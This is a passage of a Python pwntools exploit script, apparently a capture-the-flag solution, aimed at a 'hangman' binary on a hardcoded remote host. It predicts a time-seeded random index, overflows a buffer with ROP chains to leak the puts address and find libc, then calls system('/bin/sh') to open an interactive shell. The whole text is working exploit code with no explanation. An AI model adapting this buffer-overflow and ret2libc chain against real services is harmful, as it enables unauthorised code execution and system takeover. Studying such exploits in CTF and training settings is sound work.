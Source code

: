 ```python
                exe.path,
                gdbscript="""
            # b playGame
            c
            """,
            )
        return process(exe.path)
    return remote(args.HOST or host, args.PORT or port)


host, port = "52.59.124.14", 5020
exe = context.binary = ELF("./hangman_patched")
libc = ELF("./libc.so.6", False)
cdll = CDLL("libc.so.6")

io = start()


def get_index():
    cdll.srand(cdll.time(0))
    return cdll.rand() % 17


prog = log.progress("Doing black magic")
idx = get_index()
while idx != 15:
    sleep(1)
    io.sendlineafter(b">> ", b"2")
    idx = get_index()
    prog.status(idx)
prog.success()

io.sendlineafter(b">> ", b"1")

rop = ROP(exe)
rop.raw(b"A" * 40)
rop.puts(exe.got["puts"])
rop.main()

io.sendlineafter(b">> ", b"2")
io.sendlineafter(b": ", rop.chain()[:-1])
sleep(0.3)
io.sendlineafter(b">> ", b"3")

libc.address = u64(io.recv(6) + b"\0\0") - libc.sym["puts"]
log.info(f"{hex(libc.address) = }")

rop = ROP(libc)
rop.raw(b"A" * 40)
rop.call(rop.ret.address)
rop.system(next(libc.search(b"/bin/sh\0")))

io.sendlineafter(b">> ", b"1")
io.sendlineafter(b">> ", b"2")
io.sendlineafter(b": ", rop.chain()[:-1])
sleep(0.3)
io.sendlineafter(b">> ", b"3")

io.interactive()
```
